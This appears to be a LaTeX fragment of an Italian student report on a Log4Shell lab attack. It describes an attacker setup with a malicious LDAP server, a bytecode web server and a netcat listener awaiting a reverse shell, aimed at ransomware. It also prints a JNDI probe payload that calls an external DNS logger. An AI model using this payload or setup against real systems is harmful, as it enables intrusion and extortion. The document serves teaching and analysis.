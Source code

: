 \documentclass[a4paper, 12pt]{article}
\begin{document}
\subsection{Macchina attaccante}
La macchina attaccante comprende diversi servizi che vengono eseguiti per interagire con il sistema target. Tra questi si trovano:
\begin{itemize}
    \item Un server LDAP malevolo che ascolta le connessioni sulla porta 1389 e restituisce il path ad un oggetto Java contenente il codice dell'attacco.
    \item Un server web che permette di accedere al bytecode dell'oggetto remoto.
    \item Un listener netcat in attesa sulla porta 9001 di connessioni TCP da parte della macchina vittima.
\end{itemize}


\subsection{Cyber Kill Chain dell'attacco}
L'obiettivo principale dell'attaccante è eseguire un malware sulla macchina della vittima con il fine di corrompere i file presenti in memoria e chiedere un riscatto per il ripristino di questi.
Si descrive ora lo svolgimento dell'attacco mediante il modello Cyber Kill Chain.


\subsubsection{Reconnaissance}
Nella prima fase, l’attaccante interagisce con gli host e con la rete target alla ricerca di un endpoint in ascolto su qualsiasi protocollo che permetta di inviare il payload malevolo (reconnaissance attiva).
Una volta individuata l'applicazione web sulla porta 8080 alla quale inviare richieste HTTP, è opportuno assicurarsi che questa sia effettivamente vulnerabile a Log4Shell.

Il modo più semplice per rilevare se un endpoint remoto è vulnerabile, consiste nell'attivare una query DNS. 
Utilizzando un logger DNS online (ad esempio \href{http://dnslog.cn}{dnslog}), è possibile generare generare un nome di dominio ed inserirlo nell'URL JNDI di un payload di prova.
\begin{center}
    \verb!${jndi:ldap://fchcia.dnslog.cn/a}!
\end{center}
A questo punto è necessario inviare il payload attraverso una richiesta HTTP,  l'exploit farà sì che il server tenti di recuperare dei dati in remoto, permettendo di rilevare una eventuale attivazione della vulnerabilità.
\`E possibile automatizzare l'operazione attraverso strumenti come i vulnerability scanner reperibili online.
\end{document}
